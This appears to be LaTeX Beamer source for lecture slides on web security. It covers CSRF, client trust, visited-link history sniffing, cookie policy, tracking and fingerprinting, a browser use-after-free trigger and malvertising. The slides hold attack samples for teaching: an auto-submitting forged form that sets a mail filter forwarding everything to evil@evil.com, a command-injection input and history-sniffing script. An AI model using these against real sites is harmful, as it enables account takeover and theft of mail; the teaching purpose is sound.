
\includegraphics[height=0.8\textheight]{../web/ff-redirect-clears}
\end{frame}


\subsection{browser fingerprinting}
\begin{frame}{browser fingerprinting (1)}

\includegraphics[height=0.85\textheight]{../web/browser-fp-survey-tbl3}
\imagecredit{P. Laperdrix et al, ``Browser Fingerprinting: A Survey'' (2020; ACM TotW)}
\end{frame}

\begin{frame}{browser fingerprinting (2)}

\includegraphics[height=0.85\textheight]{../web/browser-fp-survey-tbl4}
\imagecredit{P. Laperdrix et al, ``Browser Fingerprinting: A Survey'' (2020; ACM TotW)}
\end{frame}


%
\subsection{Cookies and logins}


\begin{frame}{last time: web security}
    \begin{itemize}
    \item \myemph{stateless} requests (single URL)
    \item added \myemph{cookies} to tie requests together
        \begin{itemize}
        \item ``session ID'' --- identifies, e.g., login
        \end{itemize}
    \item client versus server trust
        \begin{itemize}
            \item don't trust \myemph{the attacker's browser}
        \end{itemize}
    \item XSS --- command injection in HTML
        \begin{itemize}
        \item power of scripting --- get cookies
        \item doesn't need to be stored --- embed in other web page
        \item extract info to external site --- e.g., fetch image
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{evil client/innocent website}
    \begin{tikzpicture}
        \node[fill=red!30,minimum height=5cm,minimum width=2cm,align=center] (attacker) at (0, 0) {
            attacker's \\ web browser
        };
        \node[fill=blue!30,minimum height=5cm,minimum width=2cm,align=center] (server) at (12, 0) {
            vulnerable \\ website
        };

        \draw[thick,-Latex] ([yshift=-1cm] attacker.east) -- ([yshift=-1cm]server.west)
                node[midway,above,align=center] {
            command injection? \\ \texttt{email=\fbox{"; dangerousCommand}}
        };

        \draw[thick,-Latex] ([yshift=1cm] attacker.east) -- ([yshift=1cm]server.west) node[midway,above,align=center] {
            improperly trusted input? \\ \texttt{price=\fbox{\$0}}
        };
    \end{tikzpicture}
\end{frame}

\begin{frame}{XSS demo}
\end{frame}

\section{web pages in web pages}

% embedding examples:
        % FIXME: example calendar in web page
        % FIXME: google analytics
        % FIXME: window.opener, window.parent



\section{Clickjacking}

\section{Deliberate Sharing}
\againframe<7>{noSameOrigin}
\begin{frame}{demo}
\end{frame}



\section{backup slides}
\begin{frame}{backup slides}
\end{frame}



\subsection{HTML form}

\begin{frame}[fragile,label=HTMLForms1]{HTML forms (1)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/search/" method="GET">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Search for: <input name="q" value=""><br>
<input type="submit" value="Search">
</form>
\end{minted}
\begin{framed}
\tt\small
GET /search/?q=What\%20I\%20searched\%20for HTTP/1.1 \\
Host: example.com
\end{framed}
    \begin{itemize}
        \item q is ``\fbox{What I searched for}''
        \item \%20 --- character hexadecimal 20 (space)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=HTMLForms2]{HTML forms (2)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Your email: <input name="from" value=""><br>
Your message:<textarea name="message"></textarea>
<input type="submit">
</form>
\end{minted}
\begin{framed}
\tt\small
POST /formmail.pl HTTP/1.1 \\
Host: example.com \\
Content-Type: application/x-www-form-urlencoded \\
~ \\
recipient=webmaster@example.com\&from=\textit{what\%20I\%20Entered}\\\&message=\textit{Some\%20message\%0a\ldots} \\
\end{framed}
\end{frame}


\subsection{aside: CSRF}


\begin{frame}[fragile,label=submitForm]{submitting forms}
    \begin{minted}[fontsize=\fontsize{10}{11},highlightlines={4,11},highlightcolor=cyan!40]{HTML}
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
    enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="evil@evil.com"/> 
    ...
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script>
document.forms[0].submit();
</script>
\end{minted}
    \begin{itemize}
    \item above form: 2007 GMail email filter form
        \begin{itemize}
        \item pre filled out: match all messages; forward to \texttt{evil@evil.com}
        \end{itemize}
    \item form will be submitted with \myemph{the user's cookies!}
    \end{itemize}
\end{frame}

\begin{frame}{Cross Site Request Forgery (CSRF)}
    \begin{itemize}
        \item take advantage of ``\myemph{ambient authority}'' of user
            \begin{itemize}
                \item e.g. user is allowed request to make an email filter
            \end{itemize}
        \item any webpage can make requests to other websites
            \begin{itemize}
                \item looks the same as requests made legitmately?
                \item \myemph<2>{can't read result, but does that matter?}
            \end{itemize}
        \item problem: cookie in request $\not=$ user authorized request
        \item problem: want to treat user as logged in when linked from another site
            \begin{itemize}
            \item can't just have browser omit cookies
            \end{itemize}
    \end{itemize}
\end{frame}

\againframe<2>{evilInnocent}

\begin{frame}{defending against CSRF (1)}
    \begin{itemize}
        \item one idea: check the Referer [sic] header
            \begin{itemize}
            \item actually works here --- browser is not going to betray its user
            \end{itemize}
        \item problem: not always sent
        \vspace{.5cm}
        \item<2> real solution: add a \myemph{secret token} (\myemph{CSRF token}) to the form
        \item<2> must \myemph{not be guessable}
            \begin{itemize}
            \item example: copy of secret cookie value
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{defending against CSRF (2)}
    \begin{itemize}
        \item browsers sometimes send \texttt{Origin} or \texttt{Referer} header
            \begin{itemize}
            \item if present, contain information about source of request
            \end{itemize}
        \item some types of requests require same origin
            \begin{itemize}
            \item XMLHttpRequest JavaScript API
            \item can send headers normal requests can't
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{CSRF versus changing form parameters}
\end{frame}


\subsection{Login CSRF}

% FIXME
\begin{frame}{subtle CSRF attack: login}
    \begin{itemize}
    \item vulnerable CSRF targets aren't just actions like ``email filter''
    \item can also \myemph{log user into attacker's account}
        \begin{itemize}
        \item then, e.g., they enter payment information
        \end{itemize}
    \item attacker could read info from account?
    \item often websites forgot to protect login form
    \end{itemize}
\end{frame}


\begin{frame}[fragile,label=trustCli1]{trusting the client (1)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Your email: <input name="from" value=""><br>
Your message: <textarea name="message"></textarea>
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
        \item if this my form, can I get a recipient of \texttt{spamtarget@foo.com}?
            \begin{itemize}
                \item Am I \myemph{enabling spammers}??
            \end{itemize}
        \item<2> Yes, because attacker could \myemph{make own version of form}
    \end{itemize}
\end{frame}
\begin{frame}[fragile,label=RefererHeader]{Referer header}
Submitting form at \texttt{https://example.com/feedback.html}:
\begin{framed}
\tt\small
POST /formmail.pl HTTP/1.1 \\
Host: example.com \\
Content-Type: application/x-www-form-urlencoded \\
\myemph{Referer: https://example.com/feedback.html} \\
~ \\
recipient=webmaster@example.com\&from=\ldots \\
\end{framed}
    \begin{itemize}
        \item \textbf{sometimes} sent by web browser
        \item if browser always sends, \myemph{does this help?}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=trustCli2]{trusting the client (2)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
    \item can I get a recipient of \texttt{spamtarget@example.com} \myemph{and the right referer header}?
        \begin{itemize}
        \item attacker can't modify the form on example.com!
        \item browser sends header with URL of form
        \end{itemize}
    \item<2> Yes, because attacker can \myemph{customize their browser}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=trustCliNoOne]{trusting the client (3)}
\setlength{\parskip}{0em}
\fontsize{10}{11}\selectfont\tt
ISS E-Security Alert  \\
February 1, 2000 

Form Tampering Vulnerabilities in Several Web-Based Shopping Cart Applications

\ldots

Many web-based shopping cart applications \myemph{use hidden fields in HTML forms} to
hold parameters for items in an online store. These parameters can include
the item's name, weight, quantity, product ID, and \myemph{price}.\ldots

\ldots

Several of these applications use a security method based on \myemph{the HTTP header}
to verify the request is coming from an appropriate site.\ldots

The ISS X-Force has identified \myemph{eleven shopping cart applications} that are vulnerable to form tampering. \ldots

~
\end{frame}

\againframe<3>{noSameOrigin}

\begin{frame}[fragile,label=visitedLinks]{old problem: visited links}
    \begin{itemize}
    \item browsers can display visited versus unvisited links different:
        
\includegraphics[width=2cm]{../web/visitedunvisited}
    \item javascript can query the ``computed style'' of a link
    \end{itemize}
\begin{minted}[fontsize=\small]{HTML}
<style>:visited{color:red}</style>
<a id="lnk" href="https://facebook.com/secretgroup/">link</a>
<script>
var link = document.getElementById("lnk");
if (window.getComputedStyle(link, null).getProperty('color')
    == ...) {
    ...
}
</script>
\end{minted}
\end{frame}

\begin{frame}[fragile,label=visitedLinksFix]{visited link: fix}
    \begin{itemize}
    \item most browsers have fixed visited link ``leaks'' --- not trivial
    \item getComputedStyle \myemph{lies about visited links}
        \begin{itemize}
        \item as if unvisited
        \end{itemize}
    \item many types of \myemph{formatting disallowed} for visited links
        \begin{itemize}
        \item e.g. different font size --- could detect from sizes of other things
        \end{itemize}
    \item probably \myemph{incomplete solution?}
        \begin{itemize}
            \item still tricks involving page appearance
        \end{itemize}
    \end{itemize}
\end{frame}



\begin{frame}{cross-site cookie policy changes}
    \begin{itemize}
    \item new cookie attribute \texttt{SameSite=\ldots}:
    \item \texttt{Strict}: only if same top-level origin making request
    \item \texttt{Lax} (essentially new default): not on embedded (image/iframe/etc.) requests from different origin
        \begin{itemize}
        \item and not POST/etc. requests
        \item \ldots but can create popup/etc. window
        \end{itemize}
    \item \texttt{None}: on all requests
    \end{itemize}
\end{frame}


\section{Summary}

\begin{frame}{web security summary (1)}
    \begin{itemize}
    \item browser as OS:
        \begin{itemize}
        \item websites are like programs
        \end{itemize}
    \item cross-site scripting
        \begin{itemize}
        \item command injection for the web
        \item not just stuff to display --- program code for website
        \item problem: runs with website permissions (e.g. cookies)
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{web security summary (2)}
    \begin{itemize}
    \item isolation mechanism: same origin policy
        \begin{itemize}
        \item decision: everything on domain name is ``the same''
        \end{itemize}
    \item cross-site request forgery
        \begin{itemize}
        \item consequence of statelessness
        \item \myemph{all requests} send cookie (password-equivalent)
        \item extra token to distinguish ``user initiated'' or not
        \end{itemize}
    \end{itemize}
\end{frame}

\section{User Tracking}

\begin{frame}{on user tracking}
    \begin{itemize}
    \item embedding one web page in another enables tracking users across website
    \item example: multiple webpages include \texttt{iframe} with a google ad
        \begin{itemize}
        \item your browser sends request \myemph{to Google with same cookie}
        \item Google reliably gets excerpt of web history
        \end{itemize}
    \item reason: websites cooperated with Google
    \item users often don't like this
    \item what can browsers do about this?
    \end{itemize}
\end{frame}

\begin{frame}{changing the cookie policy (1)}
    \begin{itemize}
    \item idea: no ``third-party'' cookies
    \item only send cookies for URL in address bar
    \vspace{.5cm}
    \item<2> now embedded Google calendar can't use my credentials
    \item<2> what about websites that use multiple domains?
    \end{itemize}
\end{frame}

\begin{frame}{changing the cookie policy (2)}
    \begin{itemize}
    \item current Firefox ``tracking protection'' approach:
    \item manually(?) created list of sites that do tracking
    \item \ldots and can be ignored without breaking things
    \end{itemize}
\end{frame}

\begin{frame}{changing the cookie policy (3)}
    \begin{itemize}
    \item EFF Privacy Badger: heuristic apporach
    \item create score using 
        \begin{itemize}
        \item amount of info in cookies
        \item number of places third-party appears
        \end{itemize}
    \item block requests to third-party or filter cookies if score too high
    \item hard-coded exceptions for common false positives/tricky caes
        \begin{itemize}
        \item `surrogate' code to avoid breaking website by blocking
            \begin{itemize}
            \item tracking code has callbacks to third-party
            \end{itemize}
        \item e.g. facebook.com and fbcdn.com
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=noCookieTrack]{tracking without cookies}
    \begin{itemize}
    \item websites can do tracking even with no cookies
        \begin{itemize}
        \item information in URLs --- add \texttt{?sessionID} to all links
        \item other forms of browser storage --- e.g. via Flash
        \end{itemize}
    \item websites can ``fingerprint'' browser and machine
        \begin{itemize}
        \item version, fonts, screen resolution, plugins, graphics features, \ldots
        \item \myemph<2>{caching} of previously downloaded resources
        \item almost unique a surprising amount of the time
        \end{itemize}
    \item have IP addresses, too --- very good hints
    \end{itemize}
\end{frame}

\section{Web Frameworks}

\begin{frame}[fragile,label=webFramework]{Web Frameworks}
    \begin{itemize}
    \item tools for making writing interactive websites help
    \item e.g. Django (Python): 
        \begin{itemize}
            \item default to anti-embedding HTTP header (no clickjacking)
        \item default to HttpOnly cookies
        \item default to requiring CSRF token for POSTs
        \end{itemize}
    \item usually provide ``templates'' which escape HTML properly by default
        \begin{itemize}
            \item template: \verb|<p>Name: {{name}}| (placeholder in \{\{\ldots\}\})
            \item if name is \verb|<script>...| result is \verb|<p>Name: &lt;script&gt;...|
        \end{itemize}
    \end{itemize}
\end{frame}
% FIXME:

\section{client security}

\begin{frame}[fragile,label=UAFTriggering]{recall: UAF triggering code}
    \begin{itemize}
    \item earlier in semester: exploit in Chrome \myemph{browser} itself
    \end{itemize}
\lstset{
    language=JavaScript,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3-4|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (0, 0) {
\begin{lstlisting}
// in HTML near this JavaScript:
// <video id="vid"> (video player element)
function source_opened() {
  buffer = ms.addSourceBuffer('video/webm; codecs="vorbis,vp8"');
  ~2~vid.parentNode.removeChild(vid);~end~
  gc(); // force garbage collector to run now
  // garbage collector frees unreachable objects
  // (would be run automatically, eventually, too)
  // buffer now internally refers to delete'd player object
  ~3~buffer.timestampOffset = 42;~end~
}
ms = new WebKitMediaSource();
ms.addEventListener('webkitsourceopen', source_opened);
vid.src = window.URL.createObjectURL(ms);
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}

\begin{frame}{browsers and exploits}
    \begin{itemize}
    \item browsers are in a particularly dangerous position for exploits
    \item \myemph{routinely run untrusted code} (JavaScript on websites)
    \item huge amounts of code, often written in C/C++
        \begin{itemize}
            \item WebKit (part of Chrome, Safari) has millions of lines of code
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{malvertising}
    \begin{itemize}
    \item could trick user into visiting your website
        \vspace{.5cm}
    \item or pay for ad --- embed your webpage in another!
        \begin{itemize}
        \item can run whatever script you like
        \end{itemize}
    \end{itemize}
    
\includegraphics[width=0.9\textwidth]{malvert-stegano}
\end{frame}

\begin{frame}{modern advertising landscape (1)}
    \begin{itemize}
        \item website ads are often \myemph{sold in realtime}
        \item conceptual idea: \myemph{mini-auction} for every ad
        \item major concerns about fraud
            \begin{itemize}
            \item are you really showing my ad?
            \end{itemize}
        \item ad operators want to do own tracking
            \begin{itemize}
            \item get better idea what to show/bid
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{modern advertising landscape (2)}
    \begin{itemize}
        \item website operators \myemph{typically don't host ads}
            \begin{itemize}
            \item don't build own realtime auction infrastructure
            \item not trusted to report number of ad views correctly
            \end{itemize}
        \item ads often sold indirectly
            \begin{itemize}
            \item middleman handles bidding/etc.
            \item website operators sell to multiple ad operators
            \end{itemize}
    \end{itemize}
\end{frame}






\end{document}
